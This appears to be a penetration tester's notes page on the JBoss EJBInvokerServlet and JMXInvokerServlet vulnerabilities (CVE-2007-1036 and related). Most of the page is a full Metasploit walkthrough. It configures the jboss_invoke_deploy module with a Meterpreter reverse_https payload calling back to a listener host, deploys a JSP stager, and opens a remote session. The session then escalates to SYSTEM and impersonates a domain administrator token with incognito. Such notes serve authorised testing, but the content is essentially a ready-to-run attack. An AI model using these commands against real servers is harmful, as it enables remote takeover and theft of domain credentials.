 ```yaml
---
title : "CVE-2007-1036"
# pre : ' '
description : "Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities."
date : 2020-06-24T11:33:36+02:00
# hidden : true
# draft : true
weight : 10
# tags : ['']
---
```


---

## Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities

- CVE-2007-1036
- CVE-2012-0874
- CVE-2013-4810

## Usage

```plain
msf5 use exploit/multi/http/jboss_invoke_deploy
```

## Examples

```plain
msf5 use exploit/multi/http/jboss_invoke_deploy
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHOSTS 10.10.10.10
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHPORT 8180
msf5 exploit(multi/http/jboss_invoke_deploy) > SET PAYLOAD windows/meterpreter/reverse_https
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LHOST 10.10.10.1
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LPORT 8443
msf5 exploit(multi/http/jboss_invoke_deploy) > run

[*] Started HTTPS reverse handler on https://10.10.10.1:8443
[*] Using manually select target: "Windows Universal"
[*] Deploying stager
[*] Calling stager: /EnyMtdpsHwfYUU/idIzmUiHUjmzdC.jsp
[*] Uploading payload through stager
[*] Calling payload: /BiAbpcPbeQku/MAhczELmEptIOJe.jsp
[*] Removing payload through stager
[*] Removing stager
[*] https://10.10.10.1:8443 handling request from 10.10.10.10; (UUID: 4goaaaae) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 1 opened (10.10.10.1:8443 -> 10.10.10.10:50537) at 1970-01-01 00:01:00 +0200

meterpreter > getsystem
...got system (via technique 1).
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
offsec.nl\adm-JohnDo

meterpreter > impersonate_token offsec.nl\adm-JohnDo
[+] Delegation token available
[+] Successfully impersonated user offsec.nl\adm-JohnDo
meterpreter > getuid
Server username: offsec.nl\adm-JohnDo
```

## URL List

- [Nessus.org](http://www.nessus.org/u?74979c27)
- [Tenable.com - ID 70414](https://www.tenable.com/plugins/nessus/70414)
